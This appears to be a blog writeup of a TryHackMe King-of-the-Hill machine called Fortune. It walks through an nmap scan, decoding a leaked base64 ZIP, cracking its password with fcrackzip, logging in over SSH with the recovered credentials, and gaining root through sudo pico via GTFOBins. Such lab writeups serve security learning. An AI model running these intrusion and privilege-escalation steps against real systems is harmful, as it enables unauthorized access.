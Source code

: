 ```yaml
---
tagline: fortune
title: Fortune | KOTH Writeup 
description: A Concise KOTH Writeup.
banner: /blog/CTF_lg.png/
banner_alt: we luv u godder
date: '2024-04-15'
---
```


## NMAP

- I used `sudo nmap -sV -sC 10.10.148.32` for my scan.

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sV -sC 10.10.148.32 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-14 15:40 EDT
Nmap scan report for 10.10.148.32
Host is up (0.092s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:ae:18:87:b8:c3:35:b6:3a:af:0e:a4:c3:a2:ef:13 (RSA)
|   256 42:cf:fe:0d:cb:92:24:b9:8f:dc:11:d4:10:a7:a0:3e (ECDSA)
|_  256 5c:fc:bc:c9:3a:01:b1:b6:78:ac:66:3c:34:8f:22:2a (ED25519)
80/tcp   open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Wheel of Fortune!
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      43991/tcp   mountd
|   100005  1,2,3      51188/udp   mountd
|   100005  1,2,3      53990/udp6  mountd
|   100005  1,2,3      54207/tcp6  mountd
|   100021  1,3,4      38116/udp   nlockmgr
|   100021  1,3,4      38145/tcp   nlockmgr
|   100021  1,3,4      39708/udp6  nlockmgr
|   100021  1,3,4      45597/tcp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs        3-4 (RPC #100003)
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, JavaRMI, LPDString, NULL, kumo-server: 
|     UEsDBAoACQAAAFSjjliKv3GtHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPwLRxm8C0cZnV4CwAB
|     BAAAAAAEAAAAAOjukMXnRaL/b0hG/sRdaxmEI1JLOfuZYAbRbHKk9xNQSwcIir9xrR8AAAATAAAA
|     UEsBAh4DCgAJAAAAVKOOWIq/ca0fAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU
|_    BQAD8C0cZnV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.90 seconds
```

## Getting User

- Dirsearch gave us nothing.

- If we look at the NMAP Scan, on port 3333 we see this

```bash:Terminal
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, JavaRMI, LPDString, NULL, kumo-server: 
|     UEsDBAoACQAAAFSjjliKv3GtHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPwLRxm8C0cZnV4CwAB
|     BAAAAAAEAAAAAOjukMXnRaL/b0hG/sRdaxmEI1JLOfuZYAbRbHKk9xNQSwcIir9xrR8AAAATAAAA
|     UEsBAh4DCgAJAAAAVKOOWIq/ca0fAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU
|_    BQAD8C0cZnV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=
9999/tcp open  http       Werkzeug httpd 1.0.1 (Python 3.6.9)
```

- Cyberchef tells us that it is a ZIP.

![Image showing pkzip](/blog/fortune/pkzip.png 'Fig.1')

- Lets see whats inside.

```bash:Terminal
┌──(vipin㉿vipin)-[~/Desktop]
└─$ echo 'UEsDBAoACQAAAFSjjliKv3GtHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPwLRxm8C0cZnV4CwABBAAAAAAEAAAAAOjukMXnRaL/b0hG/sRdaxmEI1JLOfuZYAbRbHKk9xNQSwcIir9xrR8AAAATAAAAUEsBAh4DCgAJAAAAVKOOWIq/ca0fAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVUBQAD8C0cZnV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=' | base64 -d > cred.zip
┌──(vipin㉿vipin)-[~/Desktop]
└─$ unzip cred.zip
Archive:  cred.zip
[cred.zip] creds.txt password: 
```

- Seems like it is password protected. I will crack it with **fcrackzip**

```bash:Terminal
┌──(vipin㉿vipin)-[~/Desktop]
└─$ fcrackzip -u -D -p  /usr/share/wordlists/rockyou.txt /home/vipin/Desktop/cred.zip


PASSWORD FOUND!!!!: pw == peaceout
```

- Now that we have the password, we can unzip the file.

```bash:Terminal
┌──(vipin㉿vipin)-[~/Desktop]
└─$ unzip cred.zip
Archive:  cred.zip
[cred.zip] creds.txt password: 
 extracting: creds.txt               
                                                                                                       
┌──(vipin㉿vipin)-[~/Desktop]
└─$ cat creds.txt 
fortuna:MGE0OTJiM2
```

- It seems to be credentials to the user *fortuna*, 

```bash:Terminal
┌──(vipin㉿vipin)-[~/Desktop]
└─$ ssh fortuna@$IP               
The authenticity of host '10.10.148.32 (10.10.148.32)' can't be established.
ED25519 key fingerprint is SHA256:UlktbYjOEgkrcijQ2e1j4iJ3u9hj8b2xzTtKJE5YTIw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.148.32' (ED25519) to the list of known hosts.
fortuna@10.10.148.32's password: 



        ################################
        ###  Come to try your luck?  ###
        ### Welcome to your fortune! ###
        ################################

```

- The credentials worked!

## Rooting the machine

- I started by running `sudo -l`

```bash:Terminal
fortuna@fortune:~$ sudo -l
[sudo] password for fortuna: 
Matching Defaults entries for fortuna on fortune:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fortuna may run the following commands on fortune:
    (ALL : ALL) /usr/bin/pico
```

> What is pico?

- **Pico** is a text editor like **nano** and **vim**.

- Lets see how we can utilize it to get root, we will be using [gtfobins](https://gtfobins.github.io/gtfobins/pico/) to do this.

![Image showing gtfobin pico](/blog/fortune/gtfobinpico.png 'Fig.2')

- And it worked! (I forgot to take an image of it 😢)

- Once I got root I spawned a PTY with `python -c'import pty; pty.spawn("/bin/bash")'`

- After I got root, I put my name in the kings file

```bash:Terminal
root@fortune:/root# ls
flagtips.txt  king.txt
root@fortune:/root# cat flagtips.txt
Some flags are flags, some flags are games.
Good luck!
root@fortune:/root# echo 'vipin.b' > king.txt 
root@fortune:/root# cat king.txt
vipin.b
root@fortune:/root# 
```

- Seems like there isn't a root flag. Atleast we rooted the machine!

### MACHINE PWN'ED 😎

![My Tryhackme badge](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)






